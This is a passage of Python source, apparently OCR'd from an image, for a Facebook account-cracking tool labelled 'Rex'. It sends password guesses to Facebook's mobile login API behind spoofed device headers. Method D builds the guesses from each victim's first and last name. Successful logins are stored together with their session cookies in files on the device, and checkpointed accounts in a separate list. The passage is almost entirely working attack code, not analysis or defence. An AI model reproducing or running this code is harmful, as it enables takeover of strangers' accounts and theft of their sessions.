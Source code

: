 "meta_inf_fbmeta": "",
"advertiser_id": str(uuid.uuid4()),
"currently_logged_in_userid": "0",
"locale": "en_GB",
"client_country_code": "GB",
"method": "auth.login",
"fb_api_req_friendly_name": "authenticate",
"fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
"api_key": "882a8490361da98702bf97a021ddc14d"}
                headers = {'User-Agent': randBuildHHL(),
'Content-Type': 'application/x-www-form-urlencoded',
'Host': 'graph.facebook.com',
'X-FB-Net-HNI': str(random.randint(20000, 40000)),
'X-FB-SIM-HNI': str(random.randint(20000, 40000)),
'X-FB-Connection-Type': 'MOBILE.LTE',
'X-Tigon-Is-Retry': 'False',
'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62',
'x-fb-device-group': '5120',
'X-FB-Friendly-Name': 'ViewerReactionsMutation',
'X-FB-Request-Analytics-Tags': 'graphservice',
'X-FB-HTTP-Engine': 'Liger',
'X-FB-Client-IP': 'True',
'X-FB-Server-Cluster': 'True',
'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62',}
                q = session.post("https://b-graph.facebook.com/auth/login",data=data, headers=headers, allow_redirects=False).json()
                if 'session_key' in q:
                    ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"]);Rexb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-");cookie = f"sb={Rexb};{ckkk}"
                    print(f"\r{R} [Rex-OK] {sid} | {ps} {S}")
                    oks.append(sid)
                    open('/sdcard/Rex_OK_ids_M2.txt','a').write(sid+'|'+ps+'\n');open('/sdcard/Rex_iDs_COOKiEs_M2.txt','a').write(sid+'|'+ps+'|'+cookie+'\n')
                    break
                elif 'www.facebook.com' in q['error']['message']:
                    #  print(f"\r{A} [Rex-CP] {sid} | {ps} {S}")
                    cps.append(sid)
                    open('/sdcard/Rex_CP.txt','a').write(sid+'|'+ps+'\n')
                else:
                    continue
            loop+=1
        except requests.exceptions.ConnectionError:
            self.methodB(sid, name, ps)

    def methodD(self, sid, name, psw):
        global oks,cps,loop
        sys.stdout.write(f"\r {S}[Rex] {loop} | M4 OK/CP {len(oks)}/{len(cps)} | {S}{'{:.0%}'.format(loop/float(len(self.id)))}{S}")
        sys.stdout.flush()
        fs = name.split(' ')[0]
        try:
            ls = name.split(' ')[1]
        except:
            ls = fs
        try:
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                session=requests.Session()
                sua = random.choice(sagent)